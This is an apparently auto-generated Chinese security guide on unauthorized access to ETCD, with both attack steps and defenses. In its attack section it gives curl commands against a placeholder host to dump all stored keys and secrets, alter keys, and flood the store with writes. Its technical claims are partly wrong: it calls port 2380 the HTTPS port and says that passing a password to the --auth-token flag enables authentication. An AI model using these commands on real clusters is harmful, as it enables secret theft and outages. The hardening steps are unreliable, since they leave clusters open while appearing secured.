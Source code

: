 # ETCD未授权访问利用的检测与监控

## 1. 技术原理解析

### 1.1 ETCD简介
ETCD是一个高可用的分布式键值存储系统，主要用于Kubernetes等容器编排系统的配置管理。由于其存储的数据通常包含敏感信息，如API密钥、证书等，ETCD的安全性至关重要。

### 1.2 未授权访问的成因
ETCD未授权访问通常是由于配置不当或安全策略缺失导致的。常见的成因包括：
- **未启用认证机制**：ETCD默认情况下不启用客户端认证，任何能够访问ETCD端口的客户端都可以进行读写操作。
- **错误的网络配置**：ETCD服务暴露在公网或内网中，未设置防火墙规则或访问控制列表（ACL）。
- **弱密码或默认凭证**：即使启用了认证，使用弱密码或默认凭证也容易被攻击者利用。

### 1.3 底层实现机制
ETCD使用HTTP/HTTPS协议进行通信，默认端口为2379（HTTP）和2380（HTTPS）。未授权访问利用的核心在于直接通过HTTP/HTTPS接口对ETCD进行读写操作，绕过认证机制。

## 2. 变种和高级利用技巧

### 2.1 数据泄露
攻击者可以通过未授权访问获取ETCD中存储的所有键值对，包括敏感信息如Kubernetes的配置、证书、密钥等。

### 2.2 数据篡改
攻击者可以修改ETCD中的键值对，导致系统配置错误或服务中断。例如，修改Kubernetes的Pod配置，导致容器无法启动或运行恶意代码。

### 2.3 服务拒绝
通过大量写入或删除操作，攻击者可以耗尽ETCD的资源，导致服务不可用。

### 2.4 横向移动
获取ETCD中的敏感信息后，攻击者可以利用这些信息进一步渗透到其他系统或服务。

## 3. 攻击步骤和实验环境搭建指南

### 3.1 实验环境搭建
#### 3.1.1 安装ETCD
```bash
# 安装ETCD
wget https://github.com/etcd-io/etcd/releases/download/v3.5.0/etcd-v3.5.0-linux-amd64.tar.gz
tar -xvf etcd-v3.5.0-linux-amd64.tar.gz
cd etcd-v3.5.0-linux-amd64
./etcd &
```

#### 3.1.2 配置ETCD
默认情况下，ETCD不启用认证，任何客户端都可以访问。可以通过以下命令启用认证：
```bash
# 启用认证
./etcd --auth-token 'simple' --auth-token-ttl 3600 &
```

### 3.2 攻击步骤
#### 3.2.1 检测未授权访问
使用`curl`命令检测ETCD是否未授权访问：
```bash
curl http://<ETCD_IP>:2379/v2/keys/
```
如果返回键值对列表，说明存在未授权访问漏洞。

#### 3.2.2 数据泄露
获取所有键值对：
```bash
curl http://<ETCD_IP>:2379/v2/keys/?recursive=true
```

#### 3.2.3 数据篡改
修改某个键值对：
```bash
curl -X PUT http://<ETCD_IP>:2379/v2/keys/mykey -d value="newvalue"
```

#### 3.2.4 服务拒绝
通过大量写入操作耗尽资源：
```bash
for i in {1..1000}; do curl -X PUT http://<ETCD_IP>:2379/v2/keys/key$i -d value="data$i"; done
```

## 4. 检测与监控

### 4.1 检测方法
#### 4.1.1 网络扫描
使用`nmap`扫描ETCD端口：
```bash
nmap -p 2379,2380 <ETCD_IP>
```

#### 4.1.2 日志分析
检查ETCD日志，查找异常访问记录：
```bash
grep "unexpected client" /var/log/etcd.log
```

#### 4.1.3 监控工具
使用Prometheus和Grafana监控ETCD的访问情况，设置告警规则。

### 4.2 监控工具
#### 4.2.1 Prometheus
配置Prometheus监控ETCD：
```yaml
scrape_configs:
  - job_name: 'etcd'
    static_configs:
      - targets: ['<ETCD_IP>:2379']
```

#### 4.2.2 Grafana
在Grafana中导入ETCD监控面板，设置告警规则。

### 4.3 防御措施
#### 4.3.1 启用认证
启用ETCD的客户端认证：
```bash
./etcd --auth-token 'complex_password' --auth-token-ttl 3600 &
```

#### 4.3.2 网络隔离
使用防火墙或ACL限制ETCD端口的访问：
```bash
iptables -A INPUT -p tcp --dport 2379 -s <ALLOWED_IP> -j ACCEPT
iptables -A INPUT -p tcp --dport 2379 -j DROP
```

#### 4.3.3 定期审计
定期审计ETCD的配置和访问日志，确保没有未授权访问。

## 5. 实战演练

### 5.1 环境准备
- 一台运行ETCD的服务器
- 一台攻击者机器
- 网络连接

### 5.2 攻击演练
1. 在攻击者机器上使用`curl`检测ETCD未授权访问。
2. 获取所有键值对，查找敏感信息。
3. 修改某个键值对，观察系统反应。
4. 进行大量写入操作，观察ETCD的性能变化。

### 5.3 防御演练
1. 在ETCD服务器上启用认证。
2. 配置防火墙规则，限制ETCD端口的访问。
3. 使用Prometheus和Grafana监控ETCD的访问情况，设置告警规则。

## 6. 总结
ETCD未授权访问是一个严重的安全漏洞，可能导致数据泄露、服务中断等严重后果。通过启用认证、网络隔离和定期审计，可以有效防御此类攻击。同时，使用监控工具实时监控ETCD的访问情况，及时发现并应对潜在威胁。

---

*文档生成时间: 2025-03-14 13:09:24*
